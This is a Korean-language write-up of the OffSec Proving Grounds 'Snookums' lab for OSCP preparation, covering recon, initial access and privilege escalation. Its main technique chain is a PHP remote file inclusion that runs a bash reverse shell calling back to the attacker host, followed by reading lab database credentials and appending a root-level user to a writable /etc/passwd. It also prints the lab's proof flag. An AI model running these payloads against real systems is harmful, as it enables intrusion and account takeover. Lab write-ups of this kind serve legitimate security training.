




# 0. Offsec Proving Grounds Walkthrough for OSCP prep

> To compromise this lab, you will exploit an RFI vulnerability in the Simple PHP Photo Gallery web application to gain access to a low-level user account. This exercise enhances your skills in vulnerability exploitation and privilege escalation techniques.

# 1. Recon

## 1.1. nmap 

```bash
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# nmap -p- --min-rate 1000 $IP -oG all_ports.gnmap
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-15 13:24 +04
Nmap scan report for 192.168.165.58
Host is up (0.084s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3306/tcp  open  mysql
33060/tcp open  mysqlx

Nmap done: 1 IP address (1 host up) scanned in 114.83 seconds

┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# ports=$(grep -oP '\d+(?=/open)' all_ports.gnmap | paste -sd "," -)

┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# nmap -sV -A -p$ports --min-rate 5000 $IP
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-15 13:27 +04
Nmap scan report for 192.168.165.58
Host is up (0.084s latency).

PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Cant get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.45.215
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp    open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 4a:79:67:12:c7:ec:13:3a:96:bd:d3:b4:7c:f3:95:15 (RSA)
|   256 a8:a3:a7:88:cf:37:27:b5:4d:45:13:79:db:d2:ba:cb (ECDSA)
|_  256 f2:07:13:19:1f:29:de:19:48:7c:db:45:99:f9:cd:3e (ED25519)
80/tcp    open  http        Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Simple PHP Photo Gallery
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp   open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp  open  mysql       MySQL (unauthorized)
33060/tcp open  mysqlx      MySQL X protocol listener
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|router
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X|5.X (97%), MikroTik RouterOS 7.X (89%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
Aggressive OS guesses: Linux 3.10 - 4.11 (97%), Linux 3.2 - 4.14 (97%), Linux 3.13 - 4.4 (91%), Linux 3.8 - 3.16 (91%), Linux 2.6.32 - 3.13 (91%), Linux 3.4 - 3.10 (91%), Linux 4.15 - 5.19 (91%), Linux 5.0 - 5.14 (91%), Linux 2.6.32 - 3.10 (90%), Linux 4.15 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: SNOOKUMS; OS: Unix

Host script results:
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: snookums
|   NetBIOS computer name: SNOOKUMS\x00
|   Domain name: \x00
|   FQDN: snookums
|_  System time: 2026-02-15T04:28:02-05:00
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h40m00s, deviation: 2h53m13s, median: 0s
| smb2-time:
|   date: 2026-02-15T09:28:08
|_  start_date: N/A

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   83.18 ms 192.168.45.1
2   83.11 ms 192.168.45.254
3   83.90 ms 192.168.251.1
4   83.97 ms 192.168.165.58

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.49 seconds
```

## 1.2. Port 20 - FTP

`anonymous` 계정을 통해 접근이 가능했으나 뒤져볼 수 있는 것은 없었다.

```bash
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# ftp $IP
Connected to 192.168.165.58.
220 (vsFTPd 3.0.2)
Name (192.168.165.58:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||63275|).

^C
receive aborted. Waiting for remote to finish abort.
ftp> quit
221 Goodbye.
```

## 1.3. Port 80 - HTTP

웹 페이지로 들어가면 `Simple PHP Photo Gallery` 가 존재한다.



### 1.3.1. Simple PHP Photo Gallery Vuln

`searchsploit` 에 검색해서 취약점들을 확인해 보았다. 하지만 정상적으로 작동하는 것은 없었다.

```bash
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# searchsploit Simple PHP Photo Gallery
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Joomla! Component com_simplephotogallery 1.0 - Arbitrary File Upload             | php/webapps/36373.txt
Joomla! Component com_simplephotogallery 1.0 - SQL Injection                     | php/webapps/36385.txt
WordPress Plugin Simple Photo Gallery 1.7.8 - Blind SQL Injection                | php/webapps/37113.txt
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

### 1.3.2. ffuf

`ffuf` 를 통해서 특별한 웹 페이지가 있나 찾아봤지만 딱히 눈이 가는 것은 없었다.

```bash
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# ffuf -u http://$IP/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 200 -e .php -fc 403

        /'___\  /'___\           / ___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.165.58/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Extensions       : .php
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

css                     [Status: 301, Size: 234, Words: 14, Lines: 8, Duration: 81ms]
db.php                  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 83ms]
functions.php           [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 86ms]
image.php               [Status: 200, Size: 1508, Words: 87, Lines: 71, Duration: 85ms]
images                  [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 81ms]
index.php               [Status: 200, Size: 2730, Words: 214, Lines: 91, Duration: 85ms]
index.php               [Status: 200, Size: 2730, Words: 214, Lines: 91, Duration: 85ms]
js                      [Status: 301, Size: 233, Words: 14, Lines: 8, Duration: 81ms]
photos                  [Status: 301, Size: 237, Words: 14, Lines: 8, Duration: 83ms]
:: Progress: [9492/9492] :: Job [1/1] :: 584 req/sec :: Duration: [0:00:16] :: Errors: 0 ::
```

# 2. Initial Access

## 2.1. Remote File Inclusion

`Simple PHP Photo Gallery exploit` 이라는 키워드로 검색을 했을 때 `Remote File Inclusion` 이라는 거를 찾을 수 있었다. `exploit-db` 에 존재했으나 `SimplePHPGal` 이라는 키워드로만 등록이 돼있어서 위의 검색에서는 나오지 않았다.



다시 검색한 결과 정상 출력이 되는 것을 확인할 수 있다.

```bash
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# searchsploit SimplePHPGal
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
SimplePHPGal 0.7 - Remote File Inclusion                                         | php/webapps/48424.txt
--------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

내용물을 확인해 보면 `POC` 에 `image.php` 뒤에 `?img=` 이라고 이미지 경로를 입력하라는 듯한 내용을 확인할 수 있다.

```
### Poc  :

[+]   site.com/image.php?img= [ PAYLOAD ]
```

`test` 라는 내용물이 들어간 파일을 만든 다음에 웹 서버를 열어준다. 

```bash
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# echo 'test' > test

┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

정상적으로 `test` 가 출력되는 것을 확인할 수 있었다.



## 2.2. Reverse Shell Connection

간단하게 `include.php` 라는 `php` 파일을 만들고 그 안에 `system` 으로 리버스 쉘을 실행할 수 있는 `bash` 스크립트를 넣어둔다. 여기서 445로 한 이유는, 서버가 445번 포트가 개방돼 있기 때문이다. 8080으로 시도했을 때는 성공하지 못했어서 개방된 포트로 골랐다.

```bash
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# cat include.php
<?php system('sh -i >& /dev/tcp/192.168.45.215/445 0>&1'); ?>
```

정상적으로 리버스 쉘을 맺은 모습을 확인할 수 있다. 

```bash
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# rlwrap nc -lvnp 445
listening on [any] 445 ...
connect to [192.168.45.215] from (UNKNOWN) [192.168.165.58] 33846
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
sh-4.2$
```

## 2.3. mysql access

`/var/www/html` 에 `db.php` 라는 파일을 확인할 수 있었다. 해당 내용에는 `root:MalapropDoffUtilize1337` 라는 크리덴셜이 존재함을 확인할 수 있었다.

```bash
sh-4.2$ cd /var/www/html
cd /var/www/html
sh-4.2$ ls -al
ls -al
total 76
drwxr-xr-x. 8 root root  4096 Jul 15  2020 .
drwxr-xr-x. 4 root root    33 Jun  9  2020 ..
-rw-r--r--. 1 root root  4041 Jun  8  2020 README.txt
-rw-r--r--. 1 root root  1710 Jun  8  2020 UpgradeInstructions.txt
drwxr-xr-x. 2 root root    44 Jun 10  2020 css
-rw-r--r--. 1 root root   145 Jul 15  2020 db.php
-rw-r--r--. 1 root root  6449 Jun  8  2020 embeddedGallery.php
-rw-r--r--. 1 root root  2063 Jun  8  2020 functions.php
-rw-r--r--. 1 root root  4508 Jun  8  2020 image.php
drwxr-xr-x. 3 root root   225 Jun 10  2020 images
-rw-r--r--. 1 root root  2761 Jun 10  2020 index.php
drwxr-xr-x. 2 root root   142 Jun 10  2020 js
-rw-r--r--. 1 root root 18511 Jun  8  2020 license.txt
drwxr-xr-x. 2 root root     6 Jun 10  2020 photos
-rw-r--r--. 1 root root  1611 Jun  8  2020 phpGalleryConfig.php
-rw-r--r--. 1 root root   619 Jun  8  2020 phpGalleryStyle-RED.css
-rw-r--r--. 1 root root   509 Jun  8  2020 phpGalleryStyle.css
drwxr-xr-x. 2 root root     6 Jun 10  2020 phpGallery_images
drwxr-xr-x. 2 root root     6 Jun 10  2020 phpGallery_thumbs
-rw-r--r--. 1 root root  2662 Jun  8  2020 thumbnail_generator.php
sh-4.2$ cat db.php
cat db.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
define('DBNAME', 'SimplePHPGal');
?>
```

### 2.3.1. 여담 ... mysql 접근 실패이유

정말이지 위의 `mysql` 계정을 가지고 `mysql` 접근을 몇 번이고 도전을 했는데 안 됐다. 

`reverse shell` 파일도 내가 만든 거에서 `pentesmonkey` 꺼로 바꿔서 써보기도 하고 이거하고 저거하고 다 했는데도 `mysql` 접속은 커녕 `su michael` 로 조차도 안 됐다. 

그냥 대기 창만 나오고 아무런 응답이 존재하지 않았다. 

```bash
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# nc -lvnp 445
listening on [any] 445 ...
connect to [192.168.45.215] from (UNKNOWN) [192.168.165.58] 33938
Linux snookums 3.10.0-1127.10.1.el7.x86_64 #1 SMP Wed Jun 3 14:28:03 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:26:23 up  3:11,  0 users,  load average: 0.26, 0.12, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache) context=system_u:system_r:httpd_t:s0
sh: no job control in this shell
sh-4.2$ mysql -u root -p
mysql -u root -p
Enter password: MalapropDoffUtilize1337
^C
```

그러다가 하나 간과한 것... 왜 `mysql` 이나 `su` 로 변환을 요구하면 그 다음 라인이 안 뜰까..? `tty shell` 을 사용하지 않았기 때문임을 알아냈다.. 이거로 1시간 넘게 고민하고 있었다.

```bash
sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'

python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$
bash-4.2$ mysql -u root -p
mysql -u root -p
Enter password: MalapropDoffUtilize1337

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 45
Server version: 8.0.20 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

## 2.4. mysql 내부 데이터 확보

여튼 `databases` 를 확인해보면 아래와 같다. 

```bash
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| SimplePHPGal       |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)
```

`SimplePHPGal` 의 데이터베이스에 `users` 라는 테이블이 하나 존재했고 해당 테이블에는 계정 정보들이 `base64` 로 추정되는 암호화가 존재했다.

```bash
mysql> use SimplePHPGal;
use SimplePHPGal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+------------------------+
| Tables_in_SimplePHPGal |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.00 sec)

mysql> select * from users;
select * from users;
+----------+----------------------------------------------+
| username | password                                     |
+----------+----------------------------------------------+
| josh     | VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0= |
| michael  | U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==     |
| serena   | VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==     |
+----------+----------------------------------------------+
3 rows in set (0.00 sec)
```

위의 암호를 복호화 하면 아래와 같이 나온다. `base64` 를 두 번 반복한 거로 확인됐다.

따라서 `josh:MobilizeHissSeedtime747` `michael:HockSydneyCertify123` `serena:OverallCrestLean000` 의 크리덴셜을 확보할 수 있었다.

```bash
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# echo 'VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0' | base64 -d
TW9iaWxpemVIaXNzU2VlZHRpbWU3NDc=
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# echo 'TW9iaWxpemVIaXNzU2VlZHRpbWU3NDc' | base64 -d
MobilizeHissSeedtime747
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# echo 'U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ' | base64 -d | base64 -d
HockSydneyCertify123
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# echo 'VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ' | base64 -d | base64 -d
OverallCrestLean000
```

## 2.5. apache -> michael

그 다음에 `michael` 로 계정을 변경하여보았다.

```bash
bash-4.2$ su michael
su michael
Password: HockSydneyCertify123

[michael@snookums tmp]$ whoami
whoami
michael
[michael@snookums tmp]$
```

# 3. Privesc

## 3.1. sudo -l

`sudo -l` 의 결과로 특별한 거는 나오지 않았다. 

```bash
[michael@snookums tmp]$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for michael: HockSydneyCertify123

Sorry, user michael may not run sudo on snookums.
```

## 3.2. linpeas.sh

`linpeas.sh` 를 돌린 결과 아래와 같이 `/etc/passwd` 에 대해서 쓰기 권한이 있다고 한다. 



실제로 `michael` 이 `owner` 이다. 

```bash
[michael@snookums tmp]$ ls -al /etc/passwd
ls -al /etc/passwd
-rw-r--r--. 1 michael root 1162 Jun 22  2021 /etc/passwd
```

## 3.3. add new Root user

그렇다면 새로운 계정을 추가하는데, root 디렉토리를를 홈 디렉토리로 가지는 계정을 생성하면 새로운 `root` 계정을 갖게 된다. 

`Openssl` 을 이용해서 패스워드를 새로 생성한다. `-1` 옵션을 통해 `md5` 해쉬를 만드는데, 통상 리눅스의 `/etc/shadow` 에서 사용하는 암호 형식이기때문에 사용한다. 

```bash
┌──(root㉿kali)-[/home/kali/PG/Snookums]
└─# openssl passwd -1 -salt password password

$1$password$Da2mWXlxe6J7jtww12SNG/
```

비밀번호를 다 만들었으면 `/etc/passwd` 에 `pwned` 계정의 이름으로 추가한다. 

```bash
[michael@snookums /]$ echo 'pwned:$1$password$Da2mWXlxe6J7jtww12SNG/:0:0:pwned:/root:/bin/bash' >> /etc/passwd
<xe6J7jtww12SNG/:0:0:pwned:/root:/bin/bash' >> /etc/passwd
```

다시 `/etc/passwd` 내용을 확인해 보면 `pwned` 계정이 잘 들어가 있는 것을 확인할 수 있다. 

```bash
[michael@snookums /]$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
michael:x:1000:1000:Michael:/home/michael:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/false
tss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:/dev/null:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
pwned:$1$password$Da2mWXlxe6J7jtww12SNG/:0:0:pwned:/root:/bin/bash
```

그러고 나서 계정을 `pwned` 로 변경해서 접근하면 `root` 권한을 갖고 있는 것을 확인할 수 있다. 

```bash
[michael@snookums /]$ su pwned
su pwned
Password: password

[root@snookums /]# whoami
whoami
root
[root@snookums /]# cat /root/proof.txt
cat /root/proof.txt
ec14b998719abe62a70af2e2aaa27b7a
```